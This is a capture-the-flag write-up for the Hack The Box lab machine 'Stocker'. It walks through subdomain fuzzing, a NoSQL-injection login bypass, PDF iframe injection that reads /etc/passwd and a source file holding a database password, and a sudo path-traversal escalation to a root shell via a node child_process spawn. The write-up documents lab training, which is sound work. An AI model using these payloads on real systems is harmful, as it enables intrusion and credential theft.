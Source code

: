 # Stocker - HTB(Easy)
## Itay Nafrin | January 21st, 2023
### IP = 10.10.11.196

### NMAP
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Subdomain
`$ wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://stocker.htb' -H "Host: FUZZ.stocker.htb" --hw 93`

```
Target: http://stocker.htb/                               
Total requests: 114441                                                                                                             
==================================================================                                                                 
ID    Response   Lines      Word         Chars          Request                                                                    
==================================================================                                                                 
00019:  C=302      0 L         4 W           28 Ch        "dev"
                                
Total time: 0             
Processed Requests: 114441                                       
Filtered Requests: 114440                                        
Requests/sec.: 0

```

### Enumeration 

After discovering the 'dev' subdomain we enter it to our /etc/hosts after that I entered it in the url and it directed me to a login form after playing with it a little bit trying some default creds, sqli, etc; I checked my wappalyezer extension that said that the web app runs on express meaning node js, so I thought to myself if it's using node it probably uses mongodb as the database manager, so I decided to do some nosql injection techniques. 

#### NoSql Injection

Well as you may know or not(if not read this interesting article about nosqli and how it works https://infosecwriteups.com/nosql-injection-8732c2140576) when injecting nosql you can do it in two ways one with the php adaption where you manipulate the post parameters, and the second is with the json technique where you change the content type to `application/json` and by that the web app will get json parameters. So how to do it:
<br/>
![nosqli](captures/nosqli.png)

### Keep Enumerating 

After entering the site you got a pretty straight forward site, you add an item to the cart and you purchase it, after purchasing you get a pdf certificate that you indeed purchased the item/s, this is the interesting part. When I see a pdf first thing that comes to mind is Server Side XSS so lets try.

<br/>

![pdfi](captures/pdfi.png)

Did the same thing with this payload: `<iframe height=750 width=500 src=file:///etc/passwd></iframe>`
got this:

<br/>

![etc-passwd](captures/etc-passwd.png)

<b>users: root, angoose.</b>

Now, to retrieve the password it was a little more difficult, if you know the linux file system you should know that web apps are located in the `/var/www` directory, now we know that there is a subdomain called 'dev' in the domain so maybe there is a directory that stores the dev subdomains data, we actually got a hint for this in the login part because if you enter this payload: `{"username": {"$gt": undefined}, "password": {"$gt": undefined}}` you get an error and over there you get errors from the directory: `/var/www/dev`. So after we know that we have a dev directory confirmed, now maybe there's a `index.js` because it's a common file in a web directory, so let's check it. Payload: `<iframe height=750 width=600 src=file:///var/www/dev/index.js></iframe>`. There is a file, and in that file a possible password because if you pay attention in the top of the file you can see what might be a password in the line: `const dbURI="mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";`
<br/>

### SSH Login

![ssh-login](captures/ssh.png)

### PrivEsc

Now after logging in and roaming a little bit in the system I want to escalate my privileges so first thing I do, `sudo -l` which displays me my sudo permissions.
<br/>

![sudo-l](captures/sudo.png)

<br/>

Now after seeing this we know we can execute javascript files from the folder `/usr/local/scripts` we can manipulate this by just navigating(by using ../) to which ever file we want after we write the prefix `/usr/local/scripts`. But we're not finished because we want a root shell how we get let's use the internet for that. Quick search for node in GTFObins and found the command `require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})`. Now lets implement this in our shell.

<br/>

![root](captures/root.png)
